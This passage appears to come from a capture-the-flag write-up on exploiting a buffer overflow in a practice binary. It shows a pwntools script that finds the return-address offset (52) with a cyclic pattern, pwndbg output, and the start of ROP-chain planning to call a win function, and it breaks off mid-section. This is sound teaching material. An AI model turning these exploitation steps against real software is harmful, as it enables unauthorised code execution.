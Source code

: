 As we can see, we have discovered a buffer overflow, and we know that our objective is to call `a_worthy_saber()` with a pointer to `worthy` as our first argument.

### Getting RIP Control

We want to find out the number of bytes that we have to write before we overwrite our return address, whilst passing the RGB check. We can write a simple python script as such:

```python
from pwn import *

p = process("./challenge")

payload  = b"RED\x00"           # first we put in a valid color string
payload += cyclic(1000, n=8)    # put in our de-brujin sequence to find offset

gdb.attach(p)
p.sendlineafter(b":", payload)  # color
p.sendlineafter(b":", b"1")     # length
p.sendlineafter(b":", b"1")     # width

p.interactive()
```

When we run this, we can see this in GDB:

![image](gdb-program-crash.png)
_program crashes due to our overflow_

```
pwndbg> cyclic -l 0x6161616861616161
Finding cyclic pattern of 8 bytes: b'aaaahaaa' (hex: 0x6161616168616161)
Found at offset 52
```
{: file='pwndbg-output'}

### Crafting our ROP chain

We will need 3 things

1. address of `a_worthy_saber`
2. address of string `"worthy"`
3. a gadget that allows us to control `RDI` register[^calling-convention]

#### Address of `a_worthy_saber`

**The GDB ay**

```
pwndbg> x a_worthy_saber
0x401502 <a_worthy_saber>:      0xfa1e0ff3
```
{: file='pwndbg-output'}

**The NM way**


[^calling-convention]: RDI is the first argument of a function according to [calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI).